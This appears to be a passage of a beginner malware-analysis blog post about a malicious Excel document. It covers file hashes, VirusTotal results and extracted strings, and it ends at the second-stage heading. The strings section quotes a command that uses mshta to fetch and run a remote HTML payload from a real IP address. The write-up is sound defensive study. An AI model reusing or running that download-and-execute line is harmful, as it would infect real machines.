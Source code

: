 ```yaml
---
layout: page
title:Malware Analysis Practice(Maldoc) #1
permalink: /lemon-mockingbird-north-alanine
---
```


# Analysis of lemon-mockingbird-north-alanine

asparagus-potato-london-march is a sample I downloaded from MalwareBazaar that was uploaded by [@Cryptolaemus1](https://twitter.com/Cryptolaemus1/), a link to the sample is below. The bulk of this analysis is based on techniques I have learned from [@HuskyHacksMK](https://twitter.com/HuskyHacksMK)'s Practical Malware Analysis & Triage course.

Sample source: [https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/](https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/)

---

## Static Analysis xlsx file

### File Hashes
I pulled the below hashes using hashcalc.

- MD5: db00ce44029164d0695bafc91fa67413
- SHA1: a7c0195d74d5be9c44638957c704eb76ef749c17
- SHA256: c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7

### VirusTotal
I was able to find a hit when searching the file hash in VT. There is some good information, interestingly only 8/60 vendors flag the file as mailicious. 

VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7](https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7)

### Strings
I used strings to pull all strings from the sample. One string really stood out and it looked very useful.

cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB

From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)

## Static Analysis second stage se.html
